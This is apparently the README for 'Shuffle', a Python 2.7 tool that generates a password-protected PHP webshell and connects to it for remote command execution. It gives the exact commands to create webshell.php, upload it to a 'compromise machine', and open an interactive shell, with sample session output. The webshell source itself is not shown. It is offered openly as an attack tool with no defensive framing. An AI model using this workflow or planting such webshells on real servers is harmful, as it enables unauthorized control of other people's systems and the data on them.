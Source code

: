![Shuffle Logo](https://raw.githubusercontent.com/matiasmenares/shuffle/master/extras/logo.png)

[![Code Climate](https://codeclimate.com/github/matiasmenares/Shuffle/badges/gpa.svg)](https://codeclimate.com/github/matiasmenares/Shuffle)

### Version
0.1 (Beta)
### Installation

Only you need is Python 2.7

## Getting started
Shuffle 0.1 (Beta) works with Python 2.7 You can run it with:

```sh
$ python shuffle.py -h
```
Command:
  - -g Generate shell
  - -p Setting Password
  - -u Url to connetec
  
To create a webshell run:
```sh
$ python shuffle.py -g webshell.php -p 123
```
And Webshell generate in shuffle folder.
```sh
~/shuffle/webshell.php
```
### Connecting
When you upload shell to compromise machine only you need is run shell with:

```sh
$ python shuffle.py -u http://localhost/webshell.php -p 123
```

And wait to establish connection...

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$>
```

Now you can run all command !

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$> ls
app
lib
index.php
localhost@apache[~]$> 

```
## Extras
### Banner
if you want change login banner modify this file:
```sh
~/shuffle/extras/banner.txt
```
License
----

MIT

**Free Software, Hell Yeah!**